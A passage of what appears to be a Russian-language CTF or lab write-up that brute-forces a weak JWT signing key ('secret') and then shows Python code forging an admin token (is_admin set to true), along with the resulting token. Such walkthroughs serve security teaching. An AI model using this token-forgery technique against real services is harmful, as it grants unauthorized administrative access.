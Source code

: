 ![](img/brute_1.png)


и находим секретный ключ. В данном случае в качестве ключа использовалась строка secret.

### Шаг 2

Генерируем новый JWT токен, подписаный данным ключом:
```
import jwt

encode = jwt.encode({'username': '3v1lH4xx0r', 'is_admin': True}, 'secret', algorithm='HS256')
print(encode)
```

получаем ключ:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IjN2MWxINHh4MHIiLCJpc19hZG1pbiI6dHJ1ZX0.ZOI8SQBvAQngYGVI2YYk-F1TWJc-amSmHs-c1Ai2ed4
```
